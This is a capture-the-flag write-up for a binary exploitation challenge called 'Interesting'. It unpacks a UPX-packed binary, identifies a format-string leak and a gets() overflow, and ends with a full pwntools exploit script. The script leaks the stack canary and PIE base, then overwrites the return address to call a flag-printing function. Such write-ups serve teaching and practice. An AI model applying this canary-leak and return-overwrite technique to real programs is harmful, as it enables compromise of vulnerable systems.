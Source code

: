 ```yaml
---
title: Interesting
categories: Binary Exploitation
tags: 
completedDuringEvent: true
submitted: true
flags: p_ctf{!_am_v3ry_!nt3r3st1ng_!nd33d}
draft: true
---
```

First, let's check the binary.

```sh
$ file challenge/chal
challenge/chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), statically linked, no section header

$ strings challenge/chal
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.24 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
...
UPX!
UPX!
```

After checking the strings, we can see that the binary is packed with **UPX**. Let's unpack the binary.

```pwsh
$ .\upx.exe -d chal -o chal.unpack
```

Now let's check the unpacked binary protections.

```sh
$ file challenge/chal.unpack 
challenge/chal.unpack: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d7d336a6fb868f08d310d402fd06fe7f7ce2a22c, for GNU/Linux 3.2.0, not stripped
$ pwn checksec challenge/chal.unpack
[*] '/home/ztz/projects/ctf/writeups/2025/pragyan/pwn/interesting/challenge/chal.unpack'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

The binary is not stripped, and it has all the protections enabled. Where the binary is `Canary` enabled, `NX` enabled, `PIE` enabled, and `Full RELRO` enabled. Where `Canary` is enabled, we need to leak the canary to exploit the buffer overflow vulnerability. `PIE` is enabled, so we need to leak the address to calculate the base address of the binary. Let's check the main function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts(
    "########  ########     ###     ######   ##    ##    ###    ##    ## \n"
    "##     ## ##     ##   ## ##   ##    ##   ##  ##    ## ##   ###   ## \n"
    "##     ## ##     ##  ##   ##  ##          ####    ##   ##  ####  ## \n"
    "########  ########  ##     ## ##   ####    ##    ##     ## ## ## ## \n"
    "##        ##   ##   ######### ##    ##     ##    ######### ##  #### \n"
    "##        ##    ##  ##     ## ##    ##     ##    ##     ## ##   ### \n"
    "##        ##     ## ##     ##  ######      ##    ##     ## ##    ## \n"
    "\n");
  puts("Hey there! Welcome to the challenge");
  puts("The rules are simple! Say something interesting, and I will give you the flag.");
  if ( (unsigned int)fun() == 7 )
    puts("Nah! You are boring");
  return 0;
}
```

The main function calls the `fun` function.

```c
__int64 fun()
{
  __int64 v1; // [rsp+0h] [rbp-128h] BYREF
  char s[248]; // [rsp+20h] [rbp-108h] BYREF
  unsigned __int64 v3; // [rsp+118h] [rbp-10h]

  v3 = __readfsqword(0x28u);
  fgets(s, 230, stdin);
  __printf_chk(1LL, "You said: ");
  __printf_chk(1LL, s);                         // Format String
  puts("Do you really think that's interesting?");
  gets(&v1);                                    // Buffer Overflow
  return 7LL;
}
```

The `fun` function has a format string vulnerability and a buffer overflow vulnerability. The format string vulnerability is in the `printf` function, and the buffer overflow vulnerability is in the `gets` function. Let's check the `interesting` function.

```c
unsigned __int64 interesting()
{
  FILE *v0; // rax
  FILE *v1; // rbp
  char v3[264]; // [rsp+0h] [rbp-128h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  puts("Yeah, that's interesting");
  v0 = fopen("flag.txt", "r");
  if ( !v0 )
  {
    perror("Error opening file, Contact Admin");
    exit(1);
  }
  v1 = v0;
  if ( fgets(v3, 256, v0) )
    __printf_chk(1LL, "%s", v3);
  fclose(v1);
  return v4 - __readfsqword(0x28u);
}
```

The `interesting` function opens the `flag.txt` file and prints the content of the file. The `interesting` function is the function that we need to return to get the flag.

Because the binary is `Canary` enabled, we need to leak the canary to exploit the buffer overflow vulnerability. Let's check the format string vulnerability. We can use `gdb` to set a breakpoint after `gets` function and send the format string payload to leak the canary.

![alt text](image.png)

`%p.` is used to leak the canary. We can see that the canary is leaked at index 43.

![alt text](image-1.png)

After leaking the canary, we can use the `canary` command to print the canary. So the canary is `0xfbe0nn390be78400`. Now let's check the canary in format string payload.

![alt text](image-2.png)

The canary is at index 43. Now let's check the address leak. We can use the format string vulnerability to leak the address of the main function.

Disassemble address from the leak `0x555555555180` we can see that the address of the main function.

![alt text](image-3.png)

Because `PIE` is enabled, and we found the address of the main function, we can calculate the base address of the binary. `0x555555555180 - 0x1180` is the base address of the binary.

![alt text](image-4.png)

So the canaries is at index 43 and the main function is at index 47 at address leak.

Now let's write the exploit script.

```c
__int64 v1; // [rsp+0h] [rbp-128h] BYREF
char s[248]; // [rsp+20h] [rbp-108h] BYREF
unsigned __int64 v3; // [rsp+118h] [rbp-10h]
```

`rbp-128h` is the buffer for the gets function, and `rbp-108h` is the buffer for the fgets function. So `0x128 - 0x10` is the offset to the canary.

![alt text](image-5.png)

So the offset to the canary is `0x118`. Now let's write the exploit script.

```py
from pwn import *

binary = './challenge/chal.unpack'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('interesting.ctf.prgy.in', 1337, ssl=True)

r.recvuntil(b"give you the flag.\n")
r.sendline(b"%p." * 50)
leaks = r.recvline().decode().split(".")

pie_leak = int(leaks[47], 16) # Main function address from pie
e.address = pie_leak - 0x1180
log.success(f"Binary Base Address: {hex(e.address)}")

interesting_addr = e.symbols["interesting"] + 8 # +8, idk why too, local works without it
log.success(f"Interesting() Address: {hex(interesting_addr)}")

canary = int(leaks[43], 16)
log.success(f"Canary: {hex(canary)}")

payload = cyclic(280)
payload += p64(canary)            # Canary
payload += cyclic(8)              # RBP
payload += p64(interesting_addr)  # Return to interesting() function

r.recvuntil(b"Do you really think that's interesting?\n")
r.sendline(payload)

r.interactive()
```
